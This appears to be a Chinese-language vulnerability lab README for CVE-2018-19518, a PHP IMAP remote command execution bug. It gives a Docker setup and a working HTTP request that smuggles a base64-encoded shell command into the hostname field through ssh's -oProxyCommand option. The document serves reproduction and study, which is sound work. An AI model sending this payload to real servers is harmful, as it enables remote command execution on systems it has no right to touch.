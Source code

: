 # PHP IMAP 远程命令执行漏洞（CVE-2018-19518）

PHP IMAP 扩展用于在 PHP 中执行邮件收发操作。其 `imap_open` 函数会调用 `rsh` 来连接远程 shell，而在 Debian/Ubuntu 系统中默认使用 `ssh` 来代替 `rsh` 的功能（也就是说，在 Debian 系列系统中，执行 `rsh` 命令实际执行的是 `ssh` 命令）。

由于 `ssh` 命令允许通过设置 `-oProxyCommand=` 来调用第三方命令，攻击者可以注入这个参数来实现远程命令执行。

参考链接：

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## 环境搭建

执行如下命令启动一个包含漏洞的 PHP 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看 Web 页面。Web 功能是测试邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码在 [index.php](www/index.php)

## 漏洞复现

发送如下数据包即可成功执行命令 `echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

执行 `docker compose exec web bash` 进入容器，可以看到 `/tmp/test0001` 已成功创建：

![](1.png)
